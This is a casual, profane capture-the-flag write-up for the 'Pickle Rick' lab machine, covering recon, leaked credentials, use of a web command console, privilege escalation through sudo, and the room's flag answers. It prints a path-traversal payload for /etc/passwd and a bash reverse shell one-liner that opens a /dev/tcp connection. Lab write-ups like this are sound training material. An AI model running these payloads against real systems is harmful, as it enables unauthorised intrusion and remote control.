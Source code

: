 # Pickle Rick
A Rick and Morty CTF. Help turn Rick back into a human!

Machine ip
```
export IP=10.10.234.6
```

- Performing an nmap scan as my first line of movement.

- I found some pretty interesting things in the webpage's source
```
Username: R1ckRul3s
```

- found some interesting thing in the robots.txt file also
```
Wubbalubbadubdub
```

- I am using the local file inclusion attack style to gather info about the directory structure of the server. I am going back many times to see if i can access the /etc/passwd since the server is running linux.
```
http://$IP:80/?page=../../../../../../../../../../../etc/passwd
```
This method totally did not work :(.

- Apparently the directory scan was shallow so i'm going to do another scan and see what i'll see.
Found couple of php directories that are worth checking out. I found a 
```
portal.php
login.php
```
Ohhhh fuck! I had the username and a likely password and didn't even think to try it. Fuck me.

- I found some page that let's me execute a linux command in my current directory.
I viewed the source of the webpage and found a likely base64 encoded data that i am having a hard time decoding with my famous oneliner :).
`Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==`

- I got the first flag :D. Nobody should have this type of web console on their website. 
```
mr. meeseek hair
```
Never will i ever keep sensitive data in the `/var/www/html` directory of a webserver. Thats bad shit.
So i tried to read the source of the the `.php` files. The web console prevent me from using 
`("cat", "head", "more", "tail", "nano", "vim", "vi")`. But i remembered there is the use of strings to echo strings back to me, so i used that to get the source code of the webpages in the html directory. But they were not that helpful to getting the flags.

- Got the second flag by going to the traversing to `/home/rick` and found a `second ingredients` file that contained the second flag :( "juicy!".
Hmm looks like there is bash on the server, lemme try a classic bash reverse shell trick and see what happens :D.
`/bin/bash -c "bash -i >& /dev/tcp/$IP/9999 0>&1"`
I got a dumb reverse shell from the web server. I am trying to get a stable but i only know how to do that i python and the server doesn't run python soo i'll just keep looking.

- Im going to look for setuid, suid, guid executables and look for how i can use them to gain root control of the shell. Okay so i did something stupid again. LOL! instead of running `sudo -l` like i always do after entering machines, i decided not to because it has been giving me negative results from all my previous games. But little did i know that the current user has a `(ALL) NOPASSWD: ALL` acesss, and i was there stressing myself.


- So thats that. I pwned the machine successfully, learnt lots of things, cried lots of tears and have some goodies in my goodies bag to take away LOL!

Lamest outro EVER! (themeihide)!
